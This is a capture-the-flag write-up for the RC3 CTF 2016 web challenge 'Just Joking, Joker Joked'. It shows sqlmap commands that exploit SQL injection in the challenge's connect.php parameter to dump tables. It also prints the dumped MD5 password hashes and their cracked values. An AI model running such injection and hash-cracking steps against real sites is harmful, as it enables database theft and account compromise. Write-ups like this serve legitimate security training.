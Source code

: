 ```yaml
---
layout: post
title: "RC3 CTF : Just Joking, Joker Joked"
author: dade
date: 2016-11-20 13:37:57 -0700
slug: bork-bork
category:
- 2016
- rc3ctf
---
```

**Category:** Web

**Points:** 200

**Description:**

```
Yes, that is gramatically correct. Now who doesn't love a good book and an even better villain?

https://ctf.rc3.club:2010/

With Love,

Joker xx

"Hint: 200: Flags aren't in plaintext"
```

# Investigation
I kind of cheated here, I normally wouldn't resort to running sqlmap immediately. But in the end, I used it to dumb tables.

```
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" --dbs
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" --tables
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" -D CCNs -T basic
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" -D CCNs -T secrets
```
I used this to dump tables, I also dumped the rest of the tables but nothing looked especially interesting.

```
CCNs
	basic
	+----+--------------+--------+
	| id | name         | gender |
	+----+--------------+--------+
	| 1  | Harley Quinn | Female |
	| 2  | Riddler      | ?      |
	| 3  | Joker        | HAHAHA |
	| 5  | Two-Face     | Male   |
	+----+--------------+--------+
	secrets
	+----+---------+----------------------------------+
	| id | User    | Password                         |
	+----+---------+----------------------------------+
	| 1  | Admin   | 3118dd54268acb0f04a048fd090e14f7 |
	| 2  | Guy     | c9846fa3e401252cf822a21ecf6a567e |
	| 3  | Joker   | c417fccfc5d5a288243c96359c62c381 |
	| 4  | Colonel | adac9d4711cd21cc4cec1b0f8e7ca538 |
	+----+---------+----------------------------------+
```

Looking at the flag.welcome table, the flag claims to be pcbfcppgle. I also happen to be told in the hint that "flags aren't in plaintext" so let's rotate that flag.

Using my favorite [caesar cipher tool](http://www.xarg.org/tools/caesar-cipher/) we put that in and choose "Guess" for the key, and it finds that with a key of 2 the flag translates to redherring. How annoying.


Looking at the CCNs.secrets table, we see some hashes. Let's try to crack (https://crackstation.net) those.

3118dd54268acb0f04a048fd090e14f7 -> NiceTry

Again, how annoying.

!(https://i.ytimg.com/vi/ZZ81_Wkykfo/hqdefault.jpg)

Let's see if any online databases have the other hashes.


Crackstation? Nope.


Hashkiller? Nope.


MD5Decrypt.org? Yup.

```
3118dd54268acb0f04a048fd090e14f7 -> NiceTry
c9846fa3e401252cf822a21ecf6a567e -> InfectiousLaughter
c417fccfc5d5a288243c96359c62c381 -> RC3-2016-HAHAHAHA
adac9d4711cd21cc4cec1b0f8e7ca538 -> TheRealSanders
```

# Flag
**RC3-2016-HAHAHAHA**
